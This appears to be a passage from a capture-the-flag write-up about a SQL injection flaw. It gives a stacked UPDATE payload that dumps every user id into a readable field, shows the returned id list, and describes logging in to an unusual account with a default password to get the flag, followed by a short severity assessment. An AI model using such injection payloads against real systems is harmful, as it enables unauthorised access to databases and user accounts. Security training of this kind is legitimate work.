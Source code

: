 We then list all the user ids using:
```
'; update users set reset_details=(SELECT array_to_string(array
(SELECT zid FROM users),', ')) --
```
This returns:
```
3294734, 3417083, 3459006, 3460832, 3462444, 3462862,
3521091, 5015215, 5016776, 5017255, 5019242, 5019271,
5019320, 5019336, 5019729, 5024969, 5025019, 5025142,
5025193, 5045865, 5057526, 5059342, 5059449, 5059671,
5059760, 5059799, 5061216, 5061266, 5061444, 5062127,
5075149, 5075397, 5075792, 5075830, 5075845, 5076219,
5080331, 5087077, 5092145, 5092151, 5098151, 5098918,
5098972, 5100899, 5102072, 5112669, 5112732, 5113067,
5113176, 5113415, 5114473, 5115412, 5115423, 5115566,
5115744, 5115782, 5116019, 5116054, 5116286, 5118046,
5118072, 5118740, 5119619, 5119752, 5120492, 5121750,
5122536, 5127215, 5128179, 5136212, 5137455, 5138074,
5139834, 5141364, 5142286, 5142642, 5142853, 5148077,
5155096, 5159918, 5160384, 5160405, 5160624, 5161105,
5161185, 5161631, 5161933, 5163491, 5163989, 5164500,
5164514, 5165167, 5165390, 5166082, 5168147, 5180332,
5205927, 5206624, 5214048, 5231006, 5231521, 5246489,
9447944, 9700463
```

We notice the last 2 zid are very different to all the others: `9447944` and `9700463`.

By login in with to the zid : `9447944` with password `DEFAULT_PASSWORD` we get the flag.

### Severity
The severity of this vulnerability is quite high as it is possible to gain access to not only the users but potentially we can use it to list anything in the database.
